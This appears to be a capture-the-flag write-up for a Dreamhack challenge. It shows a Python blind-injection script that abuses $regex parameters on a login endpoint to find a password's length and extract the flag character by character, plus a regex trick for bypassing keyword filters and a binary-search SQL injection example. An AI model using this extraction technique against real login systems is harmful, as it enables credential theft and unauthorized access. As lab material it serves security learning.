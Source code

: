 ### But keyword filtering system is not secure. We can use sqli untill the fundamental vulerabililty exists.

> filtering is easily paralyzed by using regular expression "." that mean every character. ex) admin -> ad.in , DH{ -> D.{

### Here is the exploit code use blind sqli )

```py
import requests, string

HOST = 'http://host3.dreamhack.games:13265'
SUCCESS = 'admin'
ALPHANUMERIC = string.digits + string.ascii_letters

i = 1
while True:
    res = requests.get(f'{HOST}/login?uid[$regex]=adm&upw[$regex]=.{{{i}}}')
    if res.text == SUCCESS:
        i += 1
    else:
        i -= 1
        break;
print(f'length of password : {i}')

flag = ''
for k in range(i-4):
    for ch in ALPHANUMERIC:
        res = requests.get(f'{HOST}/login?uid[$regex]=adm&upw[$regex]=D.{{{flag}{ch}')
        if res.text == SUCCESS:
            flag += ch
            break

print(f'flag : DH{{{flag}}}')
```

first, code find the length of the password and then, using for loop with range(LENGTH OF PWD), find flag by repeating substition.
<br/>

## ExploitTech : blind sqli advanced

#### Binary Search : **_Binary Search based on a assumtion that data is sorted._** Set range(n,m). As example, let range as (0,100). This method compare target data with middle-orderd data, and regenerate data range (0,50) if target <= middle else range(51, 100). repeat it so that target be captured

> example
>
> ```sql
> mysql> select * from users where username='admin' and ascii(substr(password, 1, 1))>79;
> /* This exploit compare first word of password with ascii_middle_value:79 */
> ```
